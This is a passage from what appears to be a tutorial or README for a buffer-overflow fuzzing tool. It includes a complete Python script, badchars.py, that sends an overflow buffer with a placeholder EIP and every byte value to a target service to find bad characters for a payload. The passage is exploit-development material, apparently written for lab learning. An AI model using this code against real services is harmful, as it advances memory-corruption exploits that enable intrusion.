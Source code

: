 Next thing you will want to do is to adjust the `len_overflow` variable in `badchars.py` and
`attack.py` with the value you found via `pattern_offset.rb`


#### `badchars.py`

This script will help you to identify any characters that are squashed or truncated in memory, ie.
the bad characters that cannot be used for the payload.

Before running it, remember to adjust the `len_overflow` variable.

```python
#!/usr/bin/env python
"""fuzza autogenerated."""

from __future__ import print_function
import socket

def str2b(data):
    """Python2/3 compat."""
    try:
        return data.encode('latin1')
    except UnicodeDecodeError:
        return data

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

len_overflow = 300      # Use pattern_create.rb and pattern_offset.rb to find exact offset
eip          = "B"*4     # Ignore for badchar detection
badchars = (
    "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
    "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
    "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
    "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
    "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
    "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
    "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
    "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
    "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
    "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
    "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
    "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
    "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
    "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

buffer = "A"*len_overflow + eip + badchars

print('Trying to send %s bytes buffer...' % (str(len(buffer))))
try:
    s.connect(('host.example.tld', 4444))
    s.send(str2b('' + buffer + '' + '\n'))
    print('done')
except:
    print('Could not connect')
s.close()
```

